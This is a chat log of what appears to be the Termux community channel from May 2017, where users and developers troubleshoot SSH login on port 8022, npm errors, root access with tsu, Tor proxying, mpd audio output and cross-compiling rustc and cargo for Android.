2017-05-20 12:12:02	gitter1	(namdnguyen) apt-mark or configuration in `/etc/apt` aren't available, so I was looking for alternatives

2017-05-20 12:17:59	gitter1	(vishalbiswas) @namdnguyen apt configuration can be found in `/data/data/com.termux/files/usr/etc/apt`

2017-05-20 12:26:28	gitter1	(namdnguyen) @vishalbiswas oh thank you. I'll give that a shot.

2017-05-20 12:48:34	gitter1	(spences10) ```

2017-05-20 12:48:34	gitter1	(spences10)

2017-05-20 12:48:34	gitter1	(spences10) ```

2017-05-20 12:49:01	gitter1	(spences10) ackage.tgz

2017-05-20 12:49:01	gitter1	(spences10) npm ERR! tar.unpack untar error /data/data/com.termux/files/home/.npm/setimmediate/1.0.5/package.tgz

2017-05-20 12:49:01	gitter1	(spences10) npm ERR! tar.unpack untar error /data/data/com.termux/files/home/.npm/setimmediate/1.0.5/package.tgz

2017-05-20 12:49:01	gitter1	(spences10) [full message: https://gitter.im/termux/termux?at=5920737b92217cca5896fe98]

2017-05-20 12:49:13	gitter1	(spences10) Gah!

2017-05-20 12:49:16	gitter1	(spences10) Sorry

2017-05-20 12:49:17	gitter1	(cocodevienne) why

2017-05-20 12:49:26	gitter1	(spences10) Sorry

2017-05-20 12:49:30	gitter1	(spences10) I said xx

2017-05-20 12:49:56	gitter1	(spences10) Trying to work out a way to share the error

2017-05-20 12:50:48	gitter1	(cocodevienne) Pastebin?

2017-05-20 13:33:07	frumpylava	@vishalbiswas really? what arch are you on?

2017-05-20 13:39:02	gitter1	(vishalbiswas) frumpylava: you already know

2017-05-20 13:41:27	frumpylava	vishalbiswas hmm...

2017-05-20 13:42:05	gitter1	(vishalbiswas) arm

2017-05-20 13:42:21	gitter1	(vishalbiswas) It should work though

2017-05-20 13:42:45	gitter1	(vishalbiswas) I don't have any shared libs for mysqli ext

2017-05-20 13:46:18	frumpylava	@vishalbiswas well it does require maeiadb to work

2017-05-20 13:46:58	gitter1	(vishalbiswas) But I should get connection failed instead of that

2017-05-20 14:25:17	gitter1	(spences10) @TermuxBot I got that output trying to run `npm` from a react project on my phone

2017-05-20 18:49:24	gitter1	(Nevrage) Hi,

2017-05-20 18:49:55	live_the_dream	hello

2017-05-20 18:50:48	gitter1	(Nevrage) how can I ssh into termux ? I installed the ssh server with `` packages install openssh`` and was given an RSA key,   but impossible to login from another machine

2017-05-20 18:51:00	gitter1	(Nevrage) any idea what I'm missing ?

2017-05-20 18:51:14	live_the_dream	run sshd

2017-05-20 18:51:17	live_the_dream	?

2017-05-20 18:51:36	live_the_dream	you need to copy the clients public ssh key

2017-05-20 18:52:16	gitter1	(Nevrage) `` connect to host 192.168.2.105 port 22: Connection refused`` from my ubuntu

2017-05-20 18:52:27	live_the_dream	needs to be port 8022

2017-05-20 18:52:29	gitter1	(Nevrage) what's the public ssh key ?

2017-05-20 18:52:31	gitter1	(Nevrage) oooooh

2017-05-20 18:52:39	live_the_dream	we don't have access to ports under 8000

2017-05-20 18:52:53	live_the_dream	public key and private key

2017-05-20 18:53:02	gitter1	(Nevrage) makes sens for the ports

2017-05-20 18:53:12	live_the_dream	you share pub key which should have a .pub suffix

2017-05-20 18:53:48	gitter1	(Nevrage) I was jus given an rsa key than I copied into a .pem file

2017-05-20 18:53:58	gitter1	(Nevrage) oh now it works but is asking for a passphrase ??

2017-05-20 18:54:18	live_the_dream	the ubunta private key is passworded?

2017-05-20 18:54:29	gitter1	(Nevrage) it seems

2017-05-20 18:55:01	gitter1	(Nevrage) when I installed the ``openssh` package it outputed a key I copied on ubuntu and that I am now trying to use

2017-05-20 18:58:43	live_the_dream	to be able to login to termux sshd ... you need your ubuntu pub key added to termux's ~/.ssh/authorized_keys file

2017-05-20 18:59:10	live_the_dream	cat id_rsa.pub >> ~/.ssh/authorized_keys

2017-05-20 18:59:12	live_the_dream	on termux

2017-05-20 18:59:39	live_the_dream	then ubuntu box and account should be able to login

2017-05-20 19:00:55	gitter1	(Nevrage) I think I understand

2017-05-20 19:01:09	gitter1	(Nevrage) where is the id_rsa.pub located in termux ?/

2017-05-20 19:01:20	gitter1	(Nevrage) or is a file I need to copy from ubuntu ?

2017-05-20 19:03:56	live_the_dream	from ubuntu

2017-05-20 19:04:07	live_the_dream	so termux sshd knows which keys are authorized

2017-05-20 19:09:00	gitter1	(Nevrage) I'm really lacking knowledge on that and I dont want to ask to much of your time

2017-05-20 19:09:18	gitter1	(Nevrage) just to test termux features, is it long to enable ssh with a password instead ?

2017-05-20 19:11:02	live_the_dream	The Termux sshd binary does not support password login

2017-05-20 19:11:25	gitter1	(Nevrage) of course :p

2017-05-20 19:11:44	gitter1	(Nevrage) well I'll try a bit more with rsa, thank you for your time :)

2017-05-20 19:18:13	sdrausty	@hello

2017-05-20 20:11:50	gitter1	(christianrondeau) Hi all! I have a pull request pending on the `fisherman` repo (for the `fisher` plugin manager for the `fish` shell). The maintainer wants another review of my PR before merging, since I'm not seeing any activity, I hope someone else is using fish here and would take a look :) https://github.com/fisherman/fisherman/pull/383

2017-05-20 22:27:59	gitter1	(christianrondeau) (For the record, the pull request is for fixing fisherman so that it is compatible with Termux :P)

2017-05-20 22:28:35	gitter1	(christianrondeau) And to be more precise, it's not really a review that's being asked, but rather for someone to "try and confirm that it works"

2017-05-20 23:20:26	gitter1	(vishalbiswas) does poll work in android?

2017-05-21 00:36:52	gitter1	(vishalbiswas) I just created https://github.com/termux/termux-packages/issues/1040 for apache2. If anybody wants to change something, I'll be happy to do it.

2017-05-21 11:12:17	indio	Hi. Is it possible to open browser automatically for a url in context menu ?

2017-05-21 11:14:42	morlog	long press on the link and it should open in a browser

2017-05-21 11:14:51	morlog	in the context menu

2017-05-21 11:16:13	indio	ohhh cool!! thanks :)

2017-05-21 11:19:03	morlog	np

2017-05-21 11:19:18	morlog	took me a bit to figure that out as well

2017-05-21 11:35:06	indio	i totally missed it :p

2017-05-21 20:39:50	Manuel15	Hi, I'm trying to install a module with luarocks on Termux, lpeg, but it fails and gives this error. Is it possible to fix this? https://www.irccloud.com/pastebin/v1l2ULYJ

2017-05-21 20:54:13	=!=	irc: you are not connected to server

2017-05-21 20:54:13	=!=	irc: you are not connected to server

2017-05-21 20:54:13	=!=	irc: you are not connected to server

2017-05-21 20:54:13	=!=	irc: you are not connected to server

2017-05-21 20:54:13	=!=	irc: you are not connected to server

2017-05-21 20:54:13	=!=	irc: you are not connected to server

2017-05-21 20:55:43	sdrausty	Manual15: Try: `dpkg --search lua.h`

2017-05-21 20:56:45	sdrausty	It is in `liblua-dev`

2017-05-21 21:41:33	Manuel15	sdrausty: thanks

2017-05-22 13:59:50	gitter1	(vishalbiswas) can someone from aarch64 post their `llvm-config --cppflags --cflags --cxxflags --ldflags`

2017-05-22 14:00:58	frumpylava	@vishalbiswas

2017-05-22 14:01:13	frumpylava	llvm-config --cppflags --cflags --cxxflags --ldflags

2017-05-22 14:01:15	frumpylava	-I/data/data/com.termux/files/usr/include   -D__STDC_CONSTANT_MACROS -D__STDC_FORMAT_MACROS -D__STDC_LIMIT_MACROS

2017-05-22 14:01:17	frumpylava	-I/data/data/com.termux/files/usr/include  -Os -I/data/data/com.termux/files/usr/include -fPIC -Wall -W -Wno-unused-parameter -Wwrite-strings -Wmissing-field-initializers -pedantic -Wno-long-long -Wcovered-switch-default -Wdelete-non-virtual-dtor -Wstring-conversion -Werror=date-time -ffunction-sections -fdata-sections -Os -DNDEBUG -D__STDC_CONSTANT_MACROS -D__STDC_FORMAT_MACROS -D__STDC_LIMIT_MACROS

2017-05-22 14:01:19	frumpylava	-I/data/data/com.termux/files/usr/include  -Os -I/data/data/com.termux/files/usr/include -fPIC -fvisibility-inlines-hidden -Wall -W -Wno-unused-parameter -Wwrite-strings -Wcast-qual -Wmissing-field-initializers -pedantic -Wno-long-long -Wcovered-switch-default -Wnon-virtual-dtor -Wdelete-non-virtual-dtor -Wstring-conversion -Werror=date-time -std=c++11 -ffunction-sections -fdata-sections -Os -DNDEBUG

2017-05-22 14:01:21	frumpylava	-fno-exceptions -fno-rtti -D__STDC_CONSTANT_MACROS -D__STDC_FORMAT_MACROS -D__STDC_LIMIT_MACROS

2017-05-22 14:01:23	frumpylava	-L/data/data/com.termux/files/usr/lib

2017-05-22 14:09:58	sdrausty	@vishalbiswas https://gist.github.com/sdrausty/0f1715d52b51f6aee0f4b3e34c0908a1

2017-05-22 22:48:13	gitter1	(vishalbiswas) thank you sdrausty and frumpylava

2017-05-22 23:08:29	live_the_dream_s	hmmm is mosh not working after libprotobuf upgrad3?

2017-05-23 00:33:27	live_the_dream_s	also the ncmpcpp default settings isn't working with mpd ? should probably fix ithat i guess

2017-05-23 00:59:47	gitter1	(vishalbiswas) live_the_dream: do you know how would I install a cross compiled rustc? running make install installs the build machine rustc

2017-05-23 01:15:10	live_the_dream_s	so you have the cross compiled rustc?

2017-05-23 01:44:00	gitter1	(vishalbiswas) almost ready, need to test run and split into sub packages

2017-05-23 01:45:15	gitter1	(vishalbiswas) I'm enabling `rustc, rust-docs, rust-std and rust-src`

2017-05-23 01:53:24	live_the_dream_s	has the upgraded libprotobuf broken mosh?

2017-05-23 01:56:35	live_the_dream_s	it has

2017-05-23 01:59:15	live_the_dream_s	fornwall: mosh needs version number push so it's compiled against new libprotobuf

2017-05-23 13:06:53	gitter1	(spences10) Hello termuxers

2017-05-23 13:07:34	gitter1	(natebass) Hi

2017-05-23 13:07:50	gitter1	(spences10) I'm getting permission errors after `termux-setup-storage`

2017-05-23 13:08:07	gitter1	(spences10) I'm trying to install `now`

2017-05-23 13:08:17	gitter1	(spences10) Via npm

2017-05-23 13:08:27	gitter1	(spences10) Get errors like:

2017-05-23 13:09:12	gitter1	(spences10) ```

2017-05-23 13:09:13	gitter1	(spences10)

2017-05-23 13:09:13	gitter1	(spences10) ```

2017-05-23 13:09:35	gitter1	(spences10) at process._tickCallback (internal/process/next_tick.js:109:7)

2017-05-23 13:09:35	gitter1	(spences10) npm ERR! Linux 3.18.31-perf+

2017-05-23 13:09:35	gitter1	(spences10) npm ERR! argv "/data/data/com.termux/files/usr/bin/node" "/data/data/com.termux/files/usr/bin/npm" "i" "-g" "now@latest"

2017-05-23 13:09:35	gitter1	(spences10) [full message: https://gitter.im/termux/termux?at=59246ccdf3001cd3424f2ddb]

2017-05-23 13:09:50	gitter1	(spences10) Sorry for all the tex

2017-05-23 13:10:13	gitter1	(natebass) Yea me to when I `npm install -g now`

2017-05-23 13:14:51	gitter1	(spences10) It worked yesterday

2017-05-23 13:19:43	sdrausty	npm ERR @ https://gist.github.com/sdrausty/a7d52950ab51b07f36e9bc86d08dcaf6

2017-05-23 13:19:50	gitter1	(natebass) I just started using termux today after a really long time I don't know if anything changed

2017-05-23 14:38:50	Gilfoyle-	fornwall: You rebuilt ncmpcpp/mpd yeah? Because I updated but it's still failing to detect a connection within ncmpcpp.

2017-05-23 14:54:14	fornwall	Gilfoyle-: hm, I think I built a version without the patch - can you try updating again, now to version 0.8-2 of ncmpcpp?

2017-05-23 14:57:02	Gilfoyle-	F

2017-05-23 14:57:33	Gilfoyle-	fornwall: Running update causes ncmpcpp to quit. Upon restart it refuses a connection with mpd, and mpd is killed. :P

2017-05-23 14:58:12	fornwall	Gilfoyle-: hm :)

2017-05-23 14:58:45	fornwall	Gilfoyle-: which arch (uname -m)?

2017-05-23 14:59:16	Gilfoyle-	Armv71

2017-05-23 15:00:47	Gilfoyle-	On a nexus 6.

2017-05-23 19:23:54	TinfoilHat	fornwall: Any luck?

2017-05-23 19:42:58	live_the_dreams	if mpd is giving you trouble try deleting ~/.mpd/database

2017-05-23 19:43:01	TinfoilHat	Also, stupid question but where better to ask. Anybody gotten rifle to open web/html links directly with the built in chrome app/a browser?

2017-05-23 19:43:07	TinfoilHat	Aye, thanks live_the_dreams

2017-05-23 19:45:22	live_the_dreams	fix it?

2017-05-23 19:45:35	TinfoilHat	Eyep. Danke

2017-05-23 19:45:40	live_the_dreams	np

2017-05-23 19:46:33	TinfoilHat	New error though. :P

2017-05-23 19:46:54	live_the_dreams	what error?

2017-05-23 19:47:01	live_the_dreams	"no database"

2017-05-23 19:47:04	live_the_dreams	?

2017-05-23 19:47:05	TinfoilHat	Pressing p to pause.

2017-05-23 19:47:17	live_the_dreams	what happens?

2017-05-23 19:47:35	TinfoilHat	Hitting it again to play, cause it to say playing but no sound output or song progression.

2017-05-23 19:48:27	live_the_dreams	oh

2017-05-23 19:53:18	live_the_dreams	ok easy solution is to disable sles and enable openal

2017-05-23 19:53:26	live_the_dreams	pause works

2017-05-23 19:53:43	live_the_dreams	looks to be a sles issue i am very familiar with

2017-05-23 19:53:49	live_the_dreams	as in opensles

2017-05-23 19:54:12	live_the_dreams	android sound is shit

2017-05-23 19:55:13	TinfoilHat	Gotcha. So just commen out that output block and open the openal one?

2017-05-23 19:55:29	live_the_dreams	you can do it from within ncmpcpp

2017-05-23 19:55:50	live_the_dreams	press 7

2017-05-23 19:56:24	live_the_dreams	its also where you can enable the visualizer stream so visulization works

2017-05-23 19:58:06	live_the_dreams	hmm a way to get around the opensles can't pause might be to do pause in a different way. by saving the position and restarting the file from that position

2017-05-23 19:58:41	TinfoilHat	Ugh. This reminds me of porting stuff to the pandora back in the day.

2017-05-23 19:59:04	TinfoilHat	Hmm. Reminds me, I need to go work on a patch for bitlbee. Time to do some reversing. >_>

2017-05-23 20:00:22	TinfoilHat	Hmm, visualizer fails with "can't open /tmp/mpd.conf"

2017-05-23 20:02:40	TinfoilHat	mpd.fifo*

2017-05-23 20:02:45	TinfoilHat	But, not that important.

2017-05-23 20:08:32	live_the_dreams	i will fix that stuff now

2017-05-23 20:10:08	TinfoilHat	Aye

2017-05-23 20:10:33	TinfoilHat	Back to getting ranger/rifle to open chrome then.

2017-05-23 20:10:35	TinfoilHat	Away I go!

2017-05-23 20:11:43	live_the_dreams	fifo solution cp /data/data/com.termux/files/usr/share/doc/ncmpcpp/config ~/.ncmpcpp/config

2017-05-23 20:11:59	live_the_dreams	didn't install configs properly

2017-05-23 20:12:00	live_the_dreams	my fault

2017-05-23 20:17:04	TinfoilHat	Heh, aye.

2017-05-23 20:56:39	live_the_dreams	k i got pause working for sles

2017-05-23 20:58:36	live_the_dreams	now im done for the day

2017-05-23 21:03:18	Church-	Heh, aye.

2017-05-23 22:57:10	gitter1	(vishalbiswas) how to remove ignore `-Wl,--as-needed` in linker args?

2017-05-24 01:50:18	live_the_dreams	you still need that answered vish?

2017-05-24 01:51:19	gitter1	(vishalbiswas) live_the_dream: which one?

2017-05-24 01:53:03	live_the_dreams	remove flags

2017-05-24 01:53:15	live_the_dreams	?

2017-05-24 01:54:39	gitter1	(vishalbiswas) i just changed the linker to clang, it ignores them automatically

2017-05-24 01:54:48	gitter1	(vishalbiswas) is there a better way?

2017-05-24 01:57:11	live_the_dreams	C++FLAGS:=$(filter-out -O3,$(C++FLAGS))

2017-05-24 01:57:42	live_the_dreams	in the makefile

2017-05-24 01:58:28	gitter1	(vishalbiswas) rustc was adding it internally so ...

2017-05-24 01:58:34	Church-	Just curious, somebody mind looking at my tsu script? Seems that PATH isn't set correctly. So no utilities are passed in.

2017-05-24 01:59:21	gitter1	(vishalbiswas) anyways I just updated https://github.com/termux/termux-packages/pull/1047, so rust should be ready to roll

2017-05-24 01:59:32	Church-	https://pastebin.com/LCG1h5X6

2017-05-24 01:59:41	Church-	Visha, sweet.

2017-05-24 02:06:37	Church-	This is driving me nuts. No edit follows through and is exported.

2017-05-24 02:18:17	live_the_dreams	newline at end of file needed?

2017-05-24 02:21:31	live_the_dreams	oh well

2017-05-24 02:21:49	live_the_dreams	on device building takes fucking ages

2017-05-24 02:21:55	live_the_dreams	which means its more important i do it

2017-05-24 02:26:57	Church-	Heh, aye

2017-05-24 05:47:55	u0_a233	$ su

2017-05-24 05:47:57	u0_a233	root@D2303:/data/data/com.termux/files/home # nano

2017-05-24 05:47:59	u0_a233	k_shell/10233:8735: nano: not found

2017-05-24 05:48:03	u0_a233	what is this :/

2017-05-24 06:02:15	u0_a233	anyone?

2017-05-24 06:10:33	live_the_dreams	?

2017-05-24 06:10:55	live_the_dreams	use tsu not su to use termux stuff as root

2017-05-24 06:10:59	live_the_dreams	apt install tsu

2017-05-24 06:14:39	u0_a233	$ tsu

2017-05-24 06:14:41	u0_a233	unknown option -- preserve-environment

2017-05-24 06:15:44	live_the_dreams	which root binary are you using?

2017-05-24 06:16:34	u0_a233	kingroot

2017-05-24 06:17:34	u0_a233	su worked for some time in termux, but now doesn't

2017-05-24 06:18:25	live_the_dreams	no idea about king root

2017-05-24 06:20:27	u0_a233	it was working till now :/

2017-05-24 08:44:07	live_the_dreams	"businessdayconventions.o businessdayconventions.cpp" ... indeed

2017-05-24 09:27:26	u0_a144	hello

2017-05-24 09:27:46	u0_a144	termux

2017-05-24 09:28:08	u0_a144	I need to learn something

2017-05-24 09:28:31	u0_a144	I am a newborn

2017-05-24 09:28:53	u0_a144	could anyone help me?

2017-05-24 09:29:21	u0_a144	Goodbye

2017-05-24 09:31:29	u0_a144	Hello

2017-05-24 09:31:35	u0_a144	I come here

2017-05-24 09:31:43	u0_a144	I'm so fool

2017-05-24 09:32:11	u0_a144	Who can teach me some skills?

2017-05-24 15:14:04	phil42	don't eat yellow snow

2017-05-24 20:25:57	code2501	hi

2017-05-24 20:26:44	live_the_dreams	bello

2017-05-24 20:27:33	live_the_dreams	a3w

2017-05-24 20:27:34	live_the_dreams	aww

2017-05-24 20:52:20	PharaohChurch-	Heh

2017-05-25 00:13:51	PharaohChurch-	Hey fornwall, got a question about torsocks since it's giving me an error.

2017-05-25 00:16:01	PharaohChurch-	fornwall: https://pastebin.com/73ZzL4cU

2017-05-25 00:16:23	PharaohChurch-	Failing when I run torsocks in front of a ssh command.

2017-05-25 00:22:30	PharaohChurch-	Actually, looks like all outbound net connections don't work...

2017-05-25 00:28:48	gitter1	(vishalbiswas) PharaohChurch: is tor running?

2017-05-25 00:29:23	gitter1	(vishalbiswas) you need to enable socks5 proxy in tor and start it, then you can use torsocks

2017-05-25 00:39:05	PharaohChurch-	Should be running. Icenabled it.

2017-05-25 00:39:11	PharaohChurch-	I enabled*

2017-05-25 00:40:35	gitter1	(vishalbiswas) what port is it listening on?

2017-05-25 00:40:52	gitter1	(vishalbiswas) by default, this is 9050

2017-05-25 00:51:05	PharaohChurch-	Yeah, I'm an idiot. Changed the port on accident.

2017-05-25 00:51:15	PharaohChurch-	Seems to hang while bootstrapping however.

2017-05-25 01:01:38	live_the_dreams	hmm ndk 15 beta 2... i wonder if things don't suck yet

2017-05-25 01:01:57	gitter1	(vishalbiswas) if gcc is removed, things suck more than ever

2017-05-25 01:02:02	live_the_dreams	no

2017-05-25 01:02:12	live_the_dreams	its not removed yet

2017-05-25 01:02:23	live_the_dreams	17 at earliest

2017-05-25 01:02:40	gitter1	(vishalbiswas) yesh, they keep pushing it back

2017-05-25 01:05:58	PharaohChurch-	Rustc is getting added to the repo, yeah?

2017-05-25 01:06:54	gitter1	(vishalbiswas) I'm finished with the changes, so its upto @fornwall to add it.

2017-05-25 01:07:38	PharaohChurch-	Aye.

2017-05-25 01:08:18	gitter1	(vishalbiswas) though, it will take some time as this adds a generous amount of code for reviewing

2017-05-25 01:09:42	PharaohChurch-	Aye

2017-05-25 01:18:25	gitter1	(vishalbiswas) does parity-bitcoin download the whole bitcoin history like bitcoind?

2017-05-25 01:18:55	live_the_dreams	i will probably upload some builds later today

2017-05-25 01:19:35	gitter1	(vishalbiswas) which ones?

2017-05-25 01:20:01	live_the_dreams	rustc

2017-05-25 01:20:12	live_the_dreams	i am doing all the pull requests

2017-05-25 01:20:46	gitter1	(vishalbiswas) make sure you rebuild libllvm with the config wrapper pull request

2017-05-25 01:21:01	live_the_dreams	yeah i already knew that

2017-05-25 01:21:21	gitter1	(vishalbiswas) thanks for hosting, i appreciate it

2017-05-25 01:21:30	live_the_dreams	its not me hosting

2017-05-25 01:21:37	gitter1	(vishalbiswas) hehe

2017-05-25 01:23:46	live_the_dreams	i hope no one expects me to get julia lang working

2017-05-25 01:23:52	live_the_dreams	just because rust can be done

2017-05-25 01:24:28	live_the_dreams	julia just got arm hardfloat semi support

2017-05-25 01:24:45	gitter1	(vishalbiswas) what is it exactly?

2017-05-25 01:24:58	live_the_dreams	science and engineering stuff

2017-05-25 01:25:22	gitter1	(vishalbiswas) you've tried it earlier?

2017-05-25 01:25:32	live_the_dreams	tried to compile it?

2017-05-25 01:25:35	live_the_dreams	yeah

2017-05-25 01:26:34	gitter1	(vishalbiswas) its interpreted? or compiled? their homepage is comparing it to most other interpreted langs

2017-05-25 01:28:07	live_the_dreams	its jit. Its probably going to overtake R and others eventually because its faster

2017-05-25 01:29:26	gitter1	(vishalbiswas) seems like every new language is piggybacking on llvm, we have rust, kotlin-native, julia, and more i don't know about

2017-05-25 01:29:42	live_the_dreams	yeah

2017-05-25 01:29:44	live_the_dreams	llvm

2017-05-25 01:29:51	live_the_dreams	people wanted to make plugins to gcc

2017-05-25 01:30:19	live_the_dreams	but gnu doesn't like even the possibility of propriatariness

2017-05-25 01:34:08	gitter1	(vishalbiswas) btw,  installing packages with cargo takes forever, at least on arm

2017-05-25 06:31:57	live_the_dreams	hmmm ...

2017-05-25 08:03:13	live_the_dreams	vish building cargo doesn;t find termux cmake in _cache

2017-05-25 13:42:57	gitter1	(vishalbiswas) Its missing a termux_setup_cmake. I had one installed. I'll update it tomorrow.

2017-05-25 16:04:59	aleph-	So, I'm curious what error could cause termux from the play store to install fine. But not on fdroid/as a apk?

2017-05-25 16:06:33	fornwall	aleph-: all termux apps are required to be signed with the same signature, and fdroid uses a different signature than the google play version

2017-05-25 16:06:59	aleph-	Ahhh. Gotcha. Hmm.

2017-05-25 16:07:07	fornwall	aleph-: so, if you have any termux app (main app or add-on) installed from fdroid, you won't be able to install from google play before you uninstall everything from fdroid

2017-05-25 16:07:12	fornwall	and vice versa

2017-05-25 16:08:05	fornwall	but you shouldn't need to mix, the latest add-on only available on google play (termux:float) should now work on fdroid as of version 0.10

2017-05-25 16:08:16	aleph-	Well I was just wondering because before installed anything. Termux from frdoid failed due to an unknown error. Where as the play store succeeded.

2017-05-25 16:09:06	fornwall	aleph-: that was probably due to an issue with the fdroid build in version 0.49 of termux, which wasn't installable from fdroid

2017-05-25 16:09:31	fornwall	it was just fixed in 0.50, which is available from fdroid and works :)

2017-05-25 16:09:47	aleph-	Ahhh. You are correct. Works fine noe.

2017-05-25 16:09:49	aleph-	now.*

2017-05-25 16:10:05	aleph-	And fuck. Now I need to proliferate new ssh keys everywhere. >_>

2017-05-25 22:44:28	gitter1	(tojo2ska8) hi some there is run postgresql ? helplease

2017-05-25 22:50:38	gitter1	(vishalbiswas) @tojo2ska8 what do you need help with?

2017-05-25 23:24:48	gitter1	(vishalbiswas) live_the_dream: I just fixed cargo, try a rebuild

2017-05-25 23:40:24	gitter1	(tojo2ska8) @vishalbiswas  was trying install and run postgresql and  i had problems but finally i get run it  :) thanks and now a im trying conect postgresql with pgadmin apk

2017-05-25 23:53:28	u0_a155	hello all

2017-05-25 23:53:54	gitter1	(vishalbiswas) hi

2017-05-25 23:54:51	u0_a155	do you know how to access Transmission after installing it in termux? is it command line interface based only?

2017-05-25 23:55:28	gitter1	(vishalbiswas) it has a web based interface too

2017-05-25 23:55:30	u0_a155	ive been avle to get a lot of functions to work for this but they are all CLI based so far.

2017-05-25 23:56:20	gitter1	(vishalbiswas) navigate to `http://127.0.0.1:9091` to access it in a browser

2017-05-25 23:56:41	gitter1	(vishalbiswas) or you can even use transdroid from the play store to manage it

2017-05-25 23:57:07	gitter1	(vishalbiswas) using transdroid requires you to configure the rpc server, though

2017-05-25 23:57:59	u0_a155	i got you. so but how can i activate Transmission within termux? inputting "transmission" does nothing

2017-05-25 23:58:39	gitter1	(vishalbiswas) `transmission-daemon` to start the daemon

2017-05-25 23:58:48	gitter1	(vishalbiswas) then you can use the web interface

2017-05-25 23:59:03	u0_a155	ahhhhh perfect! thank you :)

2017-05-25 23:59:59	u0_a155	and with that I'll be off. thanks again

2017-05-26 00:00:03	u0_a155	exit

2017-05-26 00:00:08	u0_a155	lol

2017-05-26 00:00:16	u0_a155	whoops

2017-05-26 00:33:14	live_the_dreams	cargo working ripgrep working good work vish

2017-05-26 00:35:01	gitter1	(vishalbiswas) live_the_dream: I've been trying to get parity to install, but, syntex_syntax (->js-precompiled->parity) never completes. just goes on forever

2017-05-26 00:40:47	gitter1	(tojo2ska8) i get conect pgadmin apk with postgresql termux :D

2017-05-26 00:41:28	gitter1	(tojo2ska8) now i go to bed seeya dudes

2017-05-26 01:30:46	live_the_dreams	is there a reason rust is compiling single thread ?

2017-05-26 01:30:49	live_the_dreams	takes its time doing that

2017-05-26 01:54:30	gitter1	(vishalbiswas) that's what I'm experiencing, too. (it may be because cargo is relying upon thread_local and not pthreads) seems like cargo isn't ready yet

2017-05-26 22:15:10	Mdawg	 

2017-05-26 22:15:13	Mdawg	Hi0

2017-05-26 22:15:35	gitter1	(vishalbiswas) hey

2017-05-26 22:15:57	Mdawg	Hi! Can you help me with termux

2017-05-26 22:16:38	gitter1	(vishalbiswas) what do you need help with?

2017-05-26 22:19:37	gitter1	(jaytula) Is mosh package working again?

2017-05-26 22:20:24	gitter1	(vishalbiswas) @jaytula it should be after the update 3 days ago

2017-05-26 22:20:59	gitter1	(vishalbiswas) make sure you `apt update` and `apt upgrade`

2017-05-26 22:28:15	live_the_dreams	k actulaly compiled arm version of rustc so rustc and cargo are on my repo

2017-05-26 22:28:29	live_the_dreams	wouldn't compile until i did a big of fiddling with unwind.h

2017-05-26 22:30:06	gitter1	(vishalbiswas) live_the_dream: so I found this -> https://github.com/rust-lang/rust/commit/c245c5bbad10923b47c9f66d5f0da2913ef11a38

2017-05-26 22:31:37	gitter1	(vishalbiswas) I'll try to build arm in docker

2017-05-26 22:37:46	live_the_dreams	if you want i could enable lto for llvm binutils etc

2017-05-26 22:37:49	live_the_dreams	on device

2017-05-26 22:39:07	gitter1	(vishalbiswas) does it have significant performance boost? (the general impression I have of lto is that its too much work, too little worth)

2017-05-26 22:41:01	live_the_dreams	not really

2017-05-26 22:41:22	live_the_dreams	though it would be required for soem stuff

2017-05-26 22:41:37	live_the_dreams	openmp though that requires gcc

2017-05-26 22:41:37	gitter1	(vishalbiswas) like?

2017-05-26 22:41:58	live_the_dreams	numba a python module that uses llvm  i think needs

2017-05-26 22:42:00	live_the_dreams	it

2017-05-26 22:42:18	live_the_dreams	it definitly needs gold linker

2017-05-26 22:42:36	gitter1	(vishalbiswas) we use gold by default in termux builds

2017-05-26 22:42:43	live_the_dreams	but numba doesn't work

2017-05-26 22:42:51	live_the_dreams	for aarch64

2017-05-26 22:42:54	live_the_dreams	i believe

2017-05-26 22:42:57	gitter1	(vishalbiswas) oh yeah

2017-05-26 22:43:04	gitter1	(vishalbiswas) for aarch64 we don't use gold

2017-05-26 22:43:28	live_the_dreams	no its aarch64 for gold only

2017-05-26 22:44:12	gitter1	(vishalbiswas) well, i got it all backward then

2017-05-26 22:45:08	gitter1	(vishalbiswas) you can fiddle around all you want with the Rust packages (I must confess, my knowledge of rust-lang is below amateur)

2017-05-26 22:46:43	live_the_dreams	same

2017-05-26 22:49:42	live_the_dreams	basically our libunwind package

2017-05-26 22:50:38	live_the_dreams	doesn't implement some stuff on arm

2017-05-26 22:51:04	live_the_dreams	so had to add definiton of getip from android stuff https://chromium.googlesource.com/android_tools/+/d2b86205ff973a3844020feacb35ca6b1d82efbe/ndk/sources/android/libportable/arch-arm/unwind.c

2017-05-26 22:52:54	gitter1	(vishalbiswas) but why am I not hit by this roadblock?

2017-05-26 22:53:31	gitter1	(vishalbiswas) maybe this only occurs if rustc is able to find the libunwind.h from our libunwind package

2017-05-26 22:53:54	gitter1	(vishalbiswas) btw, which stage gives you this error?

2017-05-26 22:55:39	live_the_dreams	linking the final rustc

2017-05-26 22:55:58	live_the_dreams	says _unwind_getip not defined

2017-05-27 00:17:00	gitter1	(vishalbiswas) i can build rustc even after build libunwind on arm

2017-05-27 00:41:10	live_the_dreams	weird

2017-05-27 00:41:13	live_the_dreams	oh well

2017-05-27 16:37:39	garlic	hi all

2017-05-27 22:45:40	rod-yolo	[02:26] (live_the_dreams) moon buggy

2017-05-27 22:45:58	live_the_dreams	b5??

2017-05-27 22:47:06	gitter1	(vishalbiswas) or you can play with the android easter egg

2017-05-27 22:47:43	rods-tab3	just do:  apt install "moon buggy"    ## termux has Everything including the kitchen sink

2017-05-27 22:55:17	gitter1	(vishalbiswas) or you can compile sudoku or 2048 (curses). thats what i did

2017-05-28 05:02:52	gitter1	(Tal0is0man) Hi, what about tasker? Tasker don't see home dir, pls help me)

2017-05-28 06:14:51	gitter1	(bitcoinmeetups) Hello. Is it possible to open a file which is in the Termux home directory with an external Android application?

2017-05-28 06:19:28	live_the_dreams	no

2017-05-28 06:22:38	gitter1	(bitcoinmeetups) Is it better in general to use the internal storage as home directory or the extSdCard?

2017-05-28 10:18:36	gitter1	(spences10) I'm getting permission errors with termux

2017-05-28 10:18:47	gitter1	(spences10) What am I doing wrong?

2017-05-28 13:49:03	golrom	really loving how termux is coming along

2017-05-28 13:53:26	rods-tab3	try:  https://termux.com/storage.html

2017-05-28 13:54:20	rods-tab3	that url should be in the /topic since most often question

2017-05-28 20:59:27	kingofinfo	hi

2017-05-28 21:00:34	gitter1	(sdrausty) Hello

2017-05-29 06:32:37	crdroid	hello.Any body here?

2017-05-29 06:34:05	live_the_dreams	no one

2017-05-29 06:35:03	crdroid	em,if no one,why have message'

2017-05-29 06:35:04	crdroid	?

2017-05-29 06:43:19	crdroid	welcome to #termux channel

2017-05-29 06:55:00	gitter1	(sdrausty) apt list |grep sql

